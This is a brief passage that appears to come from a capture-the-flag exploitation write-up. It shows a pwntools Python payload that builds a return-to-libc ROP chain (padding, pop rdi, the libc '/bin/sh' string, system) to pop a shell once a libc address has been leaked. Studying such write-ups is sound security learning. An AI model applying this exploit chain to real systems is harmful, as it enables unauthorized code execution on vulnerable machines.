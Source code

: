 ![leak_libc](leak_libc.png)


### Pop a shell locally

With the libc address in hand, we can send the second payload to pop a shell.

```python3
payload  = 0x108 * b'A'
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.symbols['system'])
```

